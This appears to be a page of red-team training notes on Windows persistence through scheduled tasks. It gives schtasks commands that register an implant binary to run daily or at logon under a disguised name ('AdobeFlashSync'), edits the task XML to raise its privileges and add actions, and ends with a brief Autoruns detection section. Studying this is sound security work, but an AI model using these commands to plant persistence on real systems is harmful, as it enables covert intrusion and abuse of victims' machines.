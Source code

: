 # Scheduled Tasks

#### Scheduled tasks have been abused by ransomware for a long time and is another commonly used and simple persistence technique. Adversaries can create scheduled tasks that run at a specific time and day and execute arbitrary payloads.

run the following command to generate a new task called MyTask that is scheduled to run daily at 9:00am that will execute the empire.exe binary located in the C:\ root folder.

#### <mark style="color:green;">as a regular USER:</mark>

```
schtasks /create /tn "Mytasks\go" /sc daily /st 09:00 /tr "c:\rto\pers\implant\implant.exe"
schtasks /query /tn "mytasks\go" /fo:list /v
schtasks /run /tn "mytasks\go"
```

#### <mark style="color:green;">as a LOCAL ADMIN:</mark>

```
schtasks /create /sc onlogon /tn AdobeFlashSync /tr "c:\rto\pers\implant\implant.exe"
schtasks /query /tn "AdobeFlashSync" /fo list

# take the configurations from an xml file

# export the task config 
schtasks /query /tn AdobeFlashSync /xml > c:\RTO\PERS\tsk.xml

#under <principal> section add this tag:
<RunLevel>HighestAvailable</RunLevel>
 
# then remove the task and make a new one with the modified configuration
schtasks /delete /f /tn AdobeFlashSync
schtasks /create /tn AdobeFlashSync /xml c:\RTO\PERS\tsk.xml

# now the privilege level is local admin
```

## <mark style="color:red;">Multi-action Tasks</mark>

By modifying the task configuration file, we can add additional actions to the scheduled task under `<Actions>` section.

for example we can execute a binary file by adding :

```
<Exec>
    <Command>c:\users\rto\desktop\implant.exe</Command>
</Exec>
```

## <mark style="color:red;">Detection</mark>

Microsoft has a Windows internals utility called Autoruns that shows you what programs are configured to run during system bootup or login. On the victim machine run the Autoruns64.exe as administrator.

Going to the Logon tab we can see the Run registry key that was added pointing to the empire.exe binary as well as the empire.exe binary that was dropped to the Startup folder.

![](<../../../.gitbook/assets/image (157).png>)

Under the Scheduled Task tab I can see the MyTask that points to the empire.exe saved in the root C:\\

![](<../../../.gitbook/assets/image (144).png>)
